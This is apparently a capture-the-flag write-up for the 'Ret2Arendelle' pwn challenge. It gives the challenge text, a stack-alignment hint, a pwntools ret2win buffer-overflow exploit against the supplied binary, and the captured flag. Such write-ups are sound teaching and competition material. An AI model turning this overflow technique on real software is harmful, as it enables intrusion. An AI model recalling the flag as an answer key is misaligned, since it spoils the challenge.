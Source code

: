 Title: Ret2Arendelle

Description:
```
Disaster strikes when Anna's hair turns white!
Guide Kristoff and Sven to the place of home,
Point him to where he ought to alight,
Make haste before the soul turns frigid.

nc alpha.8059blank.ml 3001
nc beta.8059blank.ml 3001

Author: Jodie
```

Given files: [frozen.zip](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Pwn/Ret2Arendelle/frozen.zip "frozen.zip")

Given hints: Sven might need alignment before heading off.

Obviously Ret2Arendelle is a clue to Ret2Win.

Code to solve:

```python
from pwn import *
context.log_level='debug'

p = remote('alpha.8059blank.ml', 3001)
elf = context.binary = ELF('./frozen')
rop = ROP('./frozen')

# given when program executes
arendelle = 0x401216
offset = 32 + 8 # rbp + 8, found in GDB

p.sendlineafter("Many paths lie ahead, but which path will be the Return to Arendelle?\n", flat(
        b"A"*offset,
        rop.ret.address, # necessary to align the stack
        arendelle
))

p.interactive()
```

Flag: ACSI{w4rm_hug5}
